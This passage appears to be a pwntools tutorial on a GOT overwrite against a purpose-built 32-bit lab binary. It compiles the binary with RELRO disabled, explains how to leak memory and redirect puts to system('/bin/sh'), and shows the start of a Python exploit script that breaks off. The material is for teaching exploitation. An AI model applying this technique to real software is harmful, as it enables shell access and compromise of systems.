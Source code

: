 {{< /details >}}

To compile the binary, we need to use `clang`.  In this case, it is preferred over GCC since recent Ubuntu versions of GCC do not respect `-fno-pie`.  We also want a 32-bit binary, so we specify `-m32`.  The flag `-Wl,-z,norelro` is sent to the linker, in order to disable the RELRO feature (a security mitigation to prevent GOT overwrite attacks).

```shell
$ clang -m32 -Wl,-z,norelro -o got got.c
```

We can verify with `pwn checksec` that the binary is not position-independent (i.e. does not use ASLR) and does not have RELRO:

```
$ pwn checksec got
[*] '/home/pwntools/got'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## Exploitation Strategy

The target binary gives us the opportunity to leak four bytes of data by allowing us to fill the entire `record` structure via read, and specifically the field `record.message`.  It then prints the structure with `printf`, which allows us to leak data until a null terminator is encountered.

We can then write 4 bytes at the location `record.message` points, via the second `read` call.

Finally, we call `puts(student.name)`.  Our goal is to hijack the GOT entry for `puts` and have it instead invoke `system` where `student.name` is `/bin/sh\x00`.



## Exploit Script

Our exploit script starts by importing Pwntools, and setting `context.binary` which informs the rest of pwntools what architecture should be used by default.  This is important for challenges which are for 64-bit binaries, or generate assembly, but we do it here just for convenience.

The whole exploit script can be seen by expanding the details below, but it is broken up for the sake of discussing it throughout the rest of this post.

{{< details "**Expand full source for exploit.py**" >}}

```python {linenos=table}
from pwn import *

context.binary = e = ELF('got')

print("puts@got is at ", hex(e.got.puts))

# Start the process
io = e.process()
io.clean()

# We have 28 bytes, and 4 of them will be dumped
io.fit({
    0: '/bin/sh\x00',
    24: e.got.puts
})

# Receive data until we get the open colon
io.recvuntil(b"(")

# Receive exactly four bytes of leaked data
```